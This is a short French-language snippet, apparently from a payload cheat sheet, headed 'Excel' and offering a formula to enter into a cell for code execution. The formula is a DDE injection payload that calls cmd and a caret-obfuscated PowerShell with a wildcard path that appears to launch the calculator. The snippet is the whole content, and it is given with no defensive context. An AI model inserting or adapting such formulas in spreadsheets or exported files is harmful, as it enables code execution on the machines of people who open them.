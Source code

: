 ## Excel

execution de code: entrer dans une cellule:

=cmd|'/c REM.&&@p^o^w^e^r^s^h^e^l^l c:/*/*2/?al?.?x?"'!_xlbgnm.A1



